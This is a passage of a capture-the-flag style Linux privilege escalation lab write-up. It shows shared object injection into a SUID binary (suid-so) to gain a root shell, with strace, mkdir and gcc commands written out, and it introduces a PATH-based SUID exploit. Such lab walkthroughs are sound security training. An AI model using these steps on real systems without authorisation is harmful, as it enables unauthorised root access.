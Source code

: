 Task 12 SUID / SGID Executables - Shared Object Injection:

In task we have **`/usr/local/bin/suid-so`**SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`

```bash
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
user@debian:~$ 

```

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

what does `starce` means?

`strace` is a diagnostic, debugging, and instructional userspace utility for Linux. It is used to monitor and tamper with interactions between processes and the Linux kernel, specifically by tracing system calls and signals. 

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
<img width="1902" height="597" alt="LPE12" src="https://github.com/user-attachments/assets/102c3056-35b1-4e42-9f91-f639f9f8c33e" />



Note that the executable tries to load the **`/home/user/.config/libcalc.so`** shared object within our home directory, but it cannot be found.

Create the **.config** directory for the libcalc.so file:

`mkdir /home/user/.config`

I found a shared object at path **`/home/user/tools/suid/libcalc.c`**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:


<img width="1044" height="400" alt="LPE13" src="https://github.com/user-attachments/assets/395edeeb-68af-48f9-901c-7356e4ba705a" />

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`
<img width="1884" height="189" alt="LPE14" src="https://github.com/user-attachments/assets/b18f03c6-fef6-4beb-9802-7cc559c524c6" />


yes We got it…

Task 13 SUID / SGID Executables - Environment Variables

The **`/usr/local/bin/suid-env`** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.
